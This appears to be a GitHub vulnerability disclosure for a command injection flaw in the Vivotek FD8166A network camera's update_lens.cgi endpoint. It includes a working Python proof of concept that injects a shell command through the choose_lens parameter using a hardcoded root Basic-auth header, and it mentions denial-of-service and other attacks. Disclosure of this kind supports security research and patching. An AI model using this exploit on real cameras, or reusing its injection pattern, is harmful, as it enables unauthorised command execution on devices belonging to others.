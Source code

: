 # vivotek-FD8166A-uploadfile-analysis

Vender：vivotek  
Firmware version: FD8166A-VVTK-0204j 
Hardware version: FD8166A  
Exploit Author: ljzjsc  
Vendor Homepage: <https://www.vivotek.com/>  
Hardware Link: <https://www.vivotek.com/fd8166a>  

## Vul detail
update_lens.cgi is a cgi interface that can be accessed in the device and can be accessed directly in the browser.

update_lens.cgi is a soft link in the system, and it is linked to upload_file.cgi.There is a command injection function in upload_file.cgi. The attacker only needs to construct the response payload to execute the response function to achieve the effect of arbitrary execution of the command.

![1706580653940](./vivotek-FD8166A-uploadfile-analysis.assets/1706580653940.png)

We construct the corresponding payload to achieve denial of service and other attacks.

![cfbe0efafeb85d3ea86282a123b659c](./vivotek-FD8166A-uploadfile-analysis.assets/cfbe0efafeb85d3ea86282a123b659c.png)

## PoC
```python
import requests

url = "http://192.168.1.107/cgi-bin/admin/update_lens.cgi?choose_lens=2;id;34"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "If-Modified-Since": "0",
    "Authorization": "Basic cm9vdDpsaTEwMTdydWk=",
    "Referer": "http://192.168.1.107/setup/media/lens_configuration.html",
    "Cookie": "webptzmode=continuous; activatedmode=digital; g_mode=1; viewsizemode=100; 4x3=false"
}

response = requests.get(url, headers=headers)
print(response.text)
```

